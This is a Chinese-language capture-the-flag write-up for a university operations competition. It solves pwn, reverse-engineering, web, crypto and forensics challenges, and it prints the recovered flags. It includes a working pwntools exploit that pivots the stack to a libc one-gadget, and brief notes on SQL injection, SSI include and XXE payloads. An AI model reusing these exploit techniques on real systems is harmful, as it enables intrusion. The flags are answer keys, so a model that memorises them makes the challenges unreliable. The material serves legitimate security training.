










## 高校运维赛

### hack
> 程序自身存在任意地址写漏洞，但因为是一个类似unlink的行为，所以需要两个地址都可写


> 观察main函数发现在retn之前恢复esp寄存器使用的不是leave指令而是lea esp,[ecx-4]，而ecx寄存器的值保存在栈上，可以使用提供的漏洞来改写，交换一下堆栈上的值，把栈改到堆上就能在retn的时候跳onegadget


```python
from pwn import *
#p = process("./hack",env = {"LD_PRELOAD": "./libc6-i386_2.23-0ubuntu10_amd64.so"})

p = remote("210.32.4.16", 13375)

libc = ELF("libc6-i386_2.23-0ubuntu10_amd64.so")

p.recvuntil("Besides you can have two chances to leak, input address: \n")
p.sendline("134520860")
p.recvuntil(", ")
puts = int(p.recv(10),16)
libc.address = puts - libc.sym["puts"]
environ = libc.sym["environ"]
one = libc.address + 0x3a819


print hex(puts),hex(environ)

p.sendline(str(environ))
p.recvuntil(", ")
stack = int(p.recv(10),16)
print hex(stack)

target_stack = stack - 184
p.recvuntil("The address of the node is ")
heap = p.recvuntil(",")
heap = int(heap[0:len(heap)-1],16)
print hex(heap)
#gdb.attach(p)
#raw_input()
p.send(p32(one)*2 + p32(heap+4) + p32(target_stack - 8))
p.interactive()
```

### hide and seek
> 程序在启动后不断对代码块进行解密，在大量解密后才会进入验证过程，可以使用ida python脚本自动对程序进行解密（以下代码有一部分可能需要自己手动解）：

```python

import idc
import idautils

def xor_patch(start, end, val):
   for i in range(start, end):
       b = idc.Byte(i) ^ val
       idc.PatchByte(i, b)
       MakeUnkn(i, 1)
   MakeFunction(start)

def find_mnem(start, mnem='lea'):
   start_ea = start
   for i in range(1000):
       ins = idautils.DecodeInstruction(start_ea)
       if ins.get_canon_mnem() == mnem:
           break
       if i == 100:
           return -1
       start_ea += ins.size
   return start_ea

break_addr = [0x414dad, 0x414f53, 0x4150f9]

def auto_ana(start):
   while True:
       print hex(start)
       if start in break_addr:
           print "bp hit %s" % hex(start)
           break
      
       start_ea = find_mnem(start)
       if (start_ea == -1):
           break
       if GetMnem(start_ea) != 'lea':
           break
       ea = start_ea
       start1 = GetOperandValue(ea, 1)
       ea = start_ea + 0x101 - 0xf6
       if GetMnem(ea) != 'lea':
           break
       end1 = GetOperandValue(ea, 1)
       ea = start_ea + 0x10c - 0xf6
       if GetMnem(ea) != 'mov':
           break
       val1 = GetOperandValue(ea, 1)

       start_ea = find_mnem(ea)
       if (start_ea == -1):
           break
       if GetMnem(start_ea) != 'lea':
           break
       ea = start_ea
       start2 = GetOperandValue(ea, 1)
       ea = start_ea + 0x101 - 0xf6
       if GetMnem(ea) != 'lea':
           break
       end2 = GetOperandValue(ea, 1)
       ea = start_ea + 0x10c - 0xf6
       if GetMnem(ea) != 'mov':
           break
       val2 = GetOperandValue(ea, 1)

       ea = find_mnem(ea, 'call')
       if -1 == ea:
           break
       if GetMnem(ea) != 'call':
           break
       call_addr = GetOperandValue(ea, 0)
  
       # xor_patch(start1, end1, val1)
       # print "xor(%s, %s, %s)" % (hex(start1), hex(start1), hex(val1))
       xor_patch(start2, end2, val2)
       print "xor(%s, %s, %s)" % (hex(start2), hex(start2), hex(val2))
       start = call_addr
       print "call %s" % hex(call_addr)

   print "%s: %s" % (hex(ea), GetDisasm(ea))

xor_patch(0x4006EB, 0x40082B, 9)
auto_ana(0x4166AB)
```

> 解密的最后几个函数为验证函数，每次验证一个flag字节，可以爆破出flag

```python

constraints = '''34 * flag[0] + 3 * flag[0] * flag[0] + 120 * flag[0] * flag[0] * flag[0] + 12 == 39437721
96 * flag[1] + 127 * flag[1] * flag[1] + 41 * flag[1] * flag[1] * flag[1] + 87 == 16633575
26 * flag[2] + 70 * flag[2] * flag[2] + 12 * flag[2] * flag[2] * flag[2] + 33 == 7345865
88 * flag[3] + 31 * flag[3] * flag[3] + 71 * flag[3] * flag[3] * flag[3] + 105 == 132601485
67 * flag[4] + 29 * flag[4] * flag[4] + 69 * flag[4] * flag[4] * flag[4] + 32 == 122670437
23 * flag[5] + 79 * flag[5] * flag[5] + 117 * flag[5] * flag[5] * flag[5] + 112 == 160988851
101 * flag[6] + 101 * flag[6] * flag[6] + 13 * flag[6] * flag[6] * flag[6] + 25 == 22215400
120 * flag[7] + 25 * flag[7] * flag[7] + 37 * flag[7] * flag[7] * flag[7] + 106 == 0x1E7ABC6
101 * flag[8] + 92 * flag[8] * flag[8] + 40 * flag[8] * flag[8] * flag[8] + 35 == 62063350
11 * flag[9] + 31 * flag[9] * flag[9] + 67 * flag[9] * flag[9] * flag[9] + 99 == 75702427
16 * flag[10] + 67 * flag[10] * flag[10] + 74 * flag[10] * flag[10] * flag[10] + 17 == 102031994
21 * flag[11] + 93 * flag[11] * flag[11] + 67 * flag[11] * flag[11] * flag[11] + 2 == 108583607
62 * flag[12] + 109 * flag[12] * flag[12] + 107 * flag[12] * flag[12] * flag[12] + 61 == 136067317
104 * flag[13] + 47 * flag[13] * flag[13] + 117 * flag[13] * flag[13] * flag[13] + 79 ==  117480479
68 * flag[14] + 124 * flag[14] * flag[14] + 88 * flag[14] * flag[14] * flag[14] + 115 == 76574675
86 * flag[15] + 50 * flag[15] * flag[15] + (flag[15] * flag[15] * flag[15] << 6) + 93 == 70473929
100 * flag[16] + 70 * flag[16] * flag[16] + 118 * flag[16] * flag[16] * flag[16] + 84 == 162254112
39 * flag[17] + 76 * flag[17] * flag[17] + 50 * flag[17] * flag[17] * flag[17] + 23 == 43558378
101 * flag[18] + 74 * flag[18] * flag[18] + 67 * flag[18] * flag[18] * flag[18] + 45 == 71881179
31 * flag[19] + 115 * flag[19] * flag[19] + 101 * flag[19] * flag[19] * flag[19] + 7 == 139551094
20 * flag[20] + 11 * flag[20] * flag[20] + 69 * flag[20] * flag[20] * flag[20] + 119 == 102371891
83 * flag[21] + 122 * flag[21] * flag[21] + 27 * flag[21] * flag[21] * flag[21] + 111 == 24258171
34 * flag[22] + 51 * flag[22] * flag[22] + 66 * flag[22] * flag[22] * flag[22] + 10 == 88466850
16 * flag[23] + 58 * flag[23] * flag[23] + 115 * flag[23] * flag[23] * flag[23] + 35 == 105504704
50 * flag[24] + 125 * flag[24] * flag[24] + 51 * flag[24] * flag[24] * flag[24] + 18 == 79223518
26 * flag[25] + 127 * flag[25] * flag[25] + 10 * flag[25] * flag[25] * flag[25] + 3 == 10950294
122 * flag[26] + 83 * flag[26] * flag[26] + 92 * flag[26] * flag[26] * flag[26] + 60 == 126858297
56 * flag[27] + 36 * flag[27] * flag[27] + 110 * flag[27] * flag[27] * flag[27] + 69 == 146851829
110 * flag[28] + 23 * flag[28] * flag[28] + 32 * flag[28] * flag[28] * flag[28] + 127 == 32241127
58 * flag[29] + 123 * flag[29] * flag[29] + 22 * flag[29] * flag[29] * flag[29] + 44 ==  26829959
122 * flag[30] + 60 * flag[30] * flag[30] + 92 * flag[30] * flag[30] * flag[30] + 65 == 123191485
88 * flag[31] + 36 * flag[31] * flag[31] + 38 * flag[31] * flag[31] * flag[31] + 38 == 52423340
80 * flag[32] + 72 * flag[32] * flag[32] + 127 * flag[32] * flag[32] * flag[32] + 44 == 109544069
13 * flag[33] + 23 * flag[33] * flag[33] + 94 * flag[33] * flag[33] * flag[33] + 28 == 158732224
80 * flag[34] + 24 * flag[34] * flag[34] + 46 * flag[34] * flag[34] * flag[34] + 79 == 63215689
100 * flag[35] + 101 * flag[35] * flag[35] + 75 * flag[35] * flag[35] * flag[35] + 104 == 112439900
96 * flag[36] + 8 * flag[36] * flag[36] + 4 * flag[36] * flag[36] * flag[36] + 49 == 5142577
14 * flag[37] + 89 * flag[37] * flag[37] + 113 * flag[37] * flag[37] * flag[37] == 113891400
9 * flag[38] + 82 * flag[38] * flag[38] + 18 * flag[38] * flag[38] * flag[38] + 74 == 16173729
56 * flag[39] + 14 * flag[39] * flag[39] + 117 * flag[39] * flag[39] * flag[39] + 70 == 113667811
53 * flag[40] + 49 * flag[40] * flag[40] + 89 * flag[40] * flag[40] * flag[40] + 94 == 100648486
6 * flag[41] + 23 * flag[41] * flag[41] + 38 * flag[41] * flag[41] * flag[41] + 22 == 34898585
29 * flag[42] + 72 * flag[42] * flag[42] + 21 * flag[42] * flag[42] * flag[42] + 43 == 28054245
16 * flag[43] + 90 * flag[43] * flag[43] + 68 * flag[43] * flag[43] * flag[43] + 105 == 96665961
73 * flag[44] + 116 * flag[44] * flag[44] + 102 * flag[44] * flag[44] * flag[44] + 51 == 119364366
101 * flag[45] + 15 * flag[45] * flag[45] + 13 * flag[45] * flag[45] * flag[45] + 34 == 17975263
59 * flag[46] + 72 * flag[46] * flag[46] + 52 * flag[46] * flag[46] * flag[46] + 83 == 70089773
50 * flag[47] + 22 * flag[47] * flag[47] + 55 * flag[47] * flag[47] * flag[47] + 41 == 83944866
77 * flag[48] + 42 * flag[48] * flag[48] + 119 * flag[48] * flag[48] * flag[48] + 110 == 134321206
91 * flag[49] + 38 * flag[49] * flag[49] + 126 * flag[49] * flag[49] * flag[49] + 64 == 146289319
113 * flag[50] + 113 * flag[50] * flag[50] + 119 * flag[50] * flag[50] * flag[50] + 22 == 168616582
24 * flag[51] + 88 * flag[51] * flag[51] + 98 * flag[51] * flag[51] * flag[51] + 30 == 192784280
96 * flag[52] + 12 * flag[52] * flag[52] + 74 * flag[52] * flag[52] * flag[52] + 104 == 104'''

constraints = constraints.split('\n')
template = '''
for (int i = 0; i < 256; i++) {
   flag[%d] = i;
   if (%s)
       printf("%%c",flag[%d]);
}
'''
code = '''
#include <stdio.h>

int main() {
   char flag[256] = {0};
'''

for i, constraint in enumerate(constraints):
   code += template % (i, constraint, i)

code += '''
   return 0;
}
'''

with open("solve.c", "w+") as f:
   f.write(code)
```

用以上代码获得爆破的c代码，编译运行后得到flag：



### SimpleBBS

登陆用户名处注入，没有过滤。直接从flag表的flag库中获取flag。使用substring分两次得到flag。


### SimpleServerInjection
根据提示得知Ssi漏洞。百度得到常见payload。执行命令等都不行。
只有include可直接包含flag。



### SimpleExtensionExplorerInjection&&SimplePrintEventLogger
分析源码发现。可以使用xml方式提交。修改请求头中的json为xml。然后使用源码中demo里的格式提交。并插入xxe代码。本题flag在flagvvvvvaaaagegsgag2333中。Flag文件中的是另一题xxe的flag。


直接读取：




### AzureRSA

> 刚开始用m^14代替m,得到pow(m,14,n1),pow(m,14,n2), 中国剩余定理类似,得到m^14 mod c N(N=p1*q1*q2)然而找不到这样的解.后来换了思路,将m^14降低为m^2,即m^e1modn1modq1 =  c1 mod q1 ,m^e2modn2modq2=  c2mod q2 这样,gcd(e1/2,q1)=1,gcd(e2/2,q2)=1,可以解出m^2 mod q1 =cc1 和m^2 mod q2 =cc2,直接crt,然后开平方得到flag

```python
In [39]: n1=0xcfc59d54b4b2e9ab1b5d90920ae88f430d39fee60d18dddbc623d15aae645e4e50db1c07a02d472b2eebb075a547618e1154a15b1657fbf66ed7e714d23ac70bdfba4c809bbb1e27687163cb09258a07ab2533568192e29a
    ...: 3b8e31a5de886050b28b3ed58e81952487714dd7ae012708db30eaf007620cdeb34f150836a4b723L
    ...: e1=0xfae3aL
    ...: c1=0x81523a330fb15125b6184e4461dadac7601340960840c5213b67a788c84aecfcdc3caf0bf3e27e4c95bb3c154db7055376981972b1565c22c100c47f3fa1dd2994e56090067b4e66f1c3905f9f780145cdf8d0fea88a45ba
    ...: e5113da37c8879c9cdb8ee9a55892bac3bae11fbbabcba0626163d0e2e12c04d99f4eeba5071cbeaL
    ...: n2=0xd45304b186dc82e40bd387afc831c32a4c7ba514a64ae051b62f483f27951065a6a04a030d285bdc1cb457b24c2f8701f574094d46d8de37b5a6d55356d1d368b89e16fa71b6603bd037c7f329a3096ce903937bb0c4f112
    ...: a678c88fd5d84016f745b8281aea8fd5bcc28b68c293e4ef4a62a62e478a8b6cd46f3da73fa34c63L
    ...: e2=0x1f9eaeL
    ...: c2=0x4d7ceaadf5e662ab2e0149a8d18a4777b4cd4a7712ab825cf913206c325e6abb88954ebc37b2bda19aed16c5938ac43f43966e96a86913129e38c853ecd4ebc89e806f823ffb802e3ddef0ac6c5ba078d3983393a91cd7a1
    ...: b59660d47d2045c03ff529c341f3ed994235a68c57f8195f75d61fc8cac37e936d9a6b75c4bd2347L
    ...: 

In [40]: p = libnum.gcd(n1,n2)

In [41]: q1 =n1/p

In [42]: q2 =n2/p

In [43]: cc1 = c1%q1

In [44]: cc2 = c2%q1

In [45]: d1 = libnum.invmod(e1/2,q-1)
---------------------------------------------------------------------------
NameError                                 Traceback (most recent call last)
<ipython-input-45-2c146c319682> in <module>()
----> 1 d1 = libnum.invmod(e1/2,q-1)

NameError: name 'q' is not defined

In [46]: d1 = libnum.invmod(e1/2,q1-1)

In [47]: cc2 = c2%q2

In [48]: d1 = libnum.invmod(e2/2,q2-1)

In [49]: d1 = libnum.invmod(e1/2,q1-1)

In [50]: d2 = libnum.invmod(e2/2,q2-1)

In [51]: m1 = pow(cc1,d1,q1)

In [52]: m2 = pow(cc2,d2,q2)

In [53]: m1
Out[53]: 9145934804009004487552719748503822228920165925511590860348810016302826482806451163145078607458075363428884414552198356056125262348182137376201366786492784L

In [54]: m2
Out[54]: 3589561559133514136369704927243000433305585821117657920415578960870812553872371912746609007780318541077484059092980022388170364677662870890767576651886698L

In [55]: libnum.solve_crt([m1,m2],[q1,q2])
Out[55]: 13168369367234198437872749539018271419400232176904300158681951658443746540951392343907618182877829683142536637493048355562258888677328011329896313460691230736511412015403100140418455192352174969825494293642608716519887040771398966236396051002414138381164735834544781497250458993707685568567680611380013766409L

In [56]: gmpy2.iroot(1316836936723419843787274953901827141940023217690430015868195165844374654095139234390761818287782968314253663749304835556225888867732801132989631346069123073651141201540
    ...: 3100140418455192352174969825494293642608716519887040771398966236396051002414138381164735834544781497250458993707685568567680611380013766409L,2)
Out[56]: 
(mpz(3628824791476463449712710601919239191346461224846499372572231062657711924665917840593543722030898280547854987832315368435069026877456799815879585534390653L),
 True)

In [57]: libnum.n2s(3628824791476463449712710601919239191346461224846499372572231062657711924665917840593543722030898280547854987832315368435069026877456799815879585534390653L)
Out[57]: 'EIS{Comm0n_Div15or_plus_CRT_is_so_easy|cb2733b9e69ab3a9bd526fa1}'
```

### gogogo
> strings gogogo.pcapng|grep gogogo -C 5
可以定位到流量包中ftp有gogogo.png,猜测该文件就是flag,定位到该流量,提取png,得到flag:



### Checkin
> 
> 先用getchars.py把验证码的所有字符全部保存，再肉眼识别所有的字符，重命名成资源文件保存在compares目录里，最后用solve.py暴力破解验证码。


> getchars.py

```python

#!/usr/bin/env python


# for save all characters as the resource of captchas
# then recognize the letters and use them to compare the captchas
# it takes me almost a full of an hour, what a damn...==

import os 
import hashlib 
import telnetlib


def md5(item):
    m = hashlib.md5()
    m.update(item.encode("utf-8"))
    return m.hexdigest()

for l in range(100):
    channel = telnetlib.Telnet('210.32.4.14', 13373)
    captchas = ['','','','','','']
    screen = channel.read_until("your captcha:")
    print(screen) 

    #print(screen.replace(" ","X"))
    captcha_blocks = screen[-1103:]
    #print captcha_blocks 

    for i in range(10):
        for j in range(6):
            cursor = i*109+j*18
            captchas[j] += captcha_blocks[ cursor:cursor+18 ] + '\n'

    for captcha in captchas:
        open("resource/%s.txt" % md5(captcha),'w' ).write(captcha)
```

> solve.py

```python

#!/usr/bin/env python
import os 
import telnetlib


compares = {}

for walkers in os.walk('compare'):
    for compare_file in walkers[2]:
        c = open("compare/%s" % compare_file).read()
        compares[c] = compare_file 
        
channel = telnetlib.Telnet('210.32.4.14', 13373)


for l in range(21):
    captchas = ['','','','','','']
    screen = channel.read_until("your captcha:")
    print(screen) 

    #print(screen.replace(" ","X"))
    captcha_blocks = screen[-1103:]
    #print captcha_blocks 

    for i in range(10):
        for j in range(6):
            cursor = i*109+j*18
            captchas[j] += captcha_blocks[ cursor:cursor+18 ] + '\n'

    tap = ''
    for captcha in captchas:
        tap += compares[captcha]
        
    print tap
    channel.write(tap+'\n')
```

### YouChat
> 由py文件可知,得到nonce就通过aes-cbc解密出flag
其中流量包中包含
n1 = 2788345359890551962905543699268136771176146000595129094648687559760519824698082876750649883170679922128843046651835660067369815643046909474111978619841667476365660977739880668233159866349478217053419208643682425092527541427901937121285804453341270303876060899970827193040944247320434441820601552072772196631
n = 178922502641382884719655444473401202320992695012776499435228267035240519083789199752508747615390185778922172217091588694375036275788509347056710981158505765839784659343157937299004903271202878247597396606459115904969445633597329631641132639838853464328381065150951561416618657054418909973015950955119221913709
e = 65537
n2 = 122909506930720148822026880183728012525703992834932769580248844377225531647180931058151093428767439482846732968693811513424900749181859575037932026377525177691863042999954304430740868140773963404578870118560546364210827023511095073900617051661314244461840751860152430809513488211355892785320736409017285674252
Z5x2stZPTMLCdUwBZcw0uwDVMaLDS1xME7+JwmeUYZb4jep2HZBF1V0IKwDL4Vse
可以通过bsgs跑出nouce，然而数据包泄漏时间，直接暴力跑，
nonce = int(time.time()) * 0xdeadbeef
print 'using nonce: %d' % nonce
nonce这样产生的,根据捕获数据包的时间可以算出nonce,直接解密flag

```python

In [31]: time.strftime('%Y-%m-%d %H:%M:%S', time.localtime(1537000000))
Out[31]: '2018-09-15 16:26:40'

In [32]: for  i in range(1537000000,1538000000):
    ...:     if pow(0x10001,i*0xdeadbeef,17892250264138288471965544447340120232099269501277649943522826703524051908378919975250874761539018577892217221709158869437503627578850934705671098115
    ...: 8505765839784659343157937299004903271202878247597396606459115904969445633597329631641132639838853464328381065150951561416618657054418909973015950955119221913709)==278834535989055196
    ...: 2905543699268136771176146000595129094648687559760519824698082876750649883170679922128843046651835660067369815643046909474111978619841667476365660977739880668233159866349478217053419
    ...: 208643682425092527541427901937121285804453341270303876060899970827193040944247320434441820601552072772196631:
    ...:         print i
    ...:         break
    ...:     
key = pow(n2,1537004467*0xdeadbeef, n)
1537004467

In [19]: from Crypto.Cipher import AES
    ...: from pwn import *
    ...: FLAG = "flag{xxxxxxxxxxxxxxxxx}"
    ...: 
    ...: context.log_level="debug"
    ...: server_port = 0x1337
    ...: 
    ...: 
    ...: nonce = int(time.time()) * 0xdeadbeef
    ...: print 'using nonce: %d' % nonce
    ...: 
    ...: 
    ...: def newaes(key):
    ...:     aes_key = 0
    ...:     while key > 0:
    ...:         aes_key ^= key & (2 ** 256 - 1)
    ...:         key >>= 256
    ...:     try:
    ...:         aes_key = ('%x' % aes_key).strip('L').decode('hex')
    ...:     except:
    ...:         aes_key = ('0%x' % aes_key).strip('L').decode('hex')
    ...:     aes = AES.new(aes_key, AES.MODE_CBC, '0' * 16)
    ...:     return aes
    ...: 
using nonce: 5762140749942402892

In [27]: newaes(key).decrypt("Z5x2stZPTMLCdUwBZcw0uwDVMaLDS1xME7+JwmeUYZb4jep2HZBF1V0IKwDL4Vse".decode('base64'))
Out[27]: 'EIS{annonce_nonce_once_once_once_bounce}\x08\x08\x08\x08\x08\x08\x08\x08'

```


### ELFRand

> 
固定地址,暴力跑就可以了,可以发现flag位置前后距离不一样,0x10,0x20,可以这样二分查找,懒得写了,就多跑几遍暴力吧.

```python
	# -*- coding: utf-8 -*-

from pwn import *
import re


base = 0xb2890
while 1:
	p = remote("210.32.4.13", 13372)
	for i in range(-10,10):
		tem  = i
		p.recvuntil("offset: ")
		p.sendline(str(hex(base+i*0x60*10))[2:])
		data  = p.recv(16)
		xx = data.decode("hex")
		print xx
		if "\x00\x00\x00\x00\x00\x00\x00\x00"== xx and tem==-10:
			base = base+0x20
		# if "\x00\x00\x00\x00\x00\x00\x00\x00"== xx and tem!=-10:
		# 	for j in range(1,10):
		# 		p.recvuntil("offset: ")
		# 		p.sendline(str(hex(base+(tem-1)*0x60*20+0x60*j))[2:])
		# 		data  = p.recv(16)
		# 		xx = data.decode("hex")
		# 		print xx
		elif not re.match("[0-9a-f]{8}", xx):
			print "hhhhhhhhhhhhhhhhhhhhhhhhh"
			for j in range(-2,8):
				p.recvuntil("offset: ")
				p.sendline(str(hex(base+tem*0x60*10+8*j))[2:])
				data  = p.recv(16)
				xx = data.decode("hex")
				print xx
	p.close()


[*] Closed connection to 210.32.4.13 port 13372
[+] Opening connection to 210.32.4.13 on port 13372: Done
\x00\x00\x00\x00\x00\x00\x00\x00
bf53c3ce
52eb1445
d5ea3ebd
8e5bd798
abd71e54
a02ca07b
2ecab3ac
_123_bef
hhhhhhhhhhhhhhhhhhhhhhhhh
EIS{need
_to_know
_123_bef
ore_hack
ing_lol}
\x00\x00\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\x00\x00\x00\x00
82704618
d1a03aad
ab596fca
```

